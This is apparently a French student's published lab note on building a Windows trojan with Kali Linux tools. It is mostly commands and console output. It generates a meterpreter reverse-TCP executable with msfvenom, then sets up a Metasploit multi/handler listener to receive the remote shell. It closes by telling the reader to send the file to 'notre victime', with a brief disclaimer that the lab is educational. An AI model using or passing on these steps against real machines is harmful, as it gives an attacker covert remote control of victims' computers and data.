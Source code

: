 ```yaml
---
{"dg-publish":true,"permalink":"/mes-notes/kali/cheval-de-troie/"}
---
```


Tout d'abord il faut commencer par donner le chemin du fichier :
```shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP.Kali> LPORT=<Port_voulu> -f exe -o <Chemin/nom.exe>
```
Une fois cela fait il faut lancer msf console 
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole
```
 Une fois lancer on a cet écran :
```Shell
┌──(kali㉿DESKTOPEnzo)-[~/Desktop]
└─$ msfconsole

       =[ metasploit v6.2.26-dev                          ]
+ -- --=[ 2264 exploits - 1189 auxiliary - 404 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Start commands with a space to avoid saving
them to history
Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```
on va taper les commandes suivante :
```Shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP.Kali>
LHOST => <IP.Kali>
msf6 exploit(multi/handler) > exploit
```
On se retrouve au chemin du fichier indiqué et on l'envoie à notre victime.
Attention ce TP est à but éducatif. Ce Trojan sera détecté directement par l'antivirus du système visé. Une fois installé tapez la commande `<help>` pour connaître les différentes actions possible.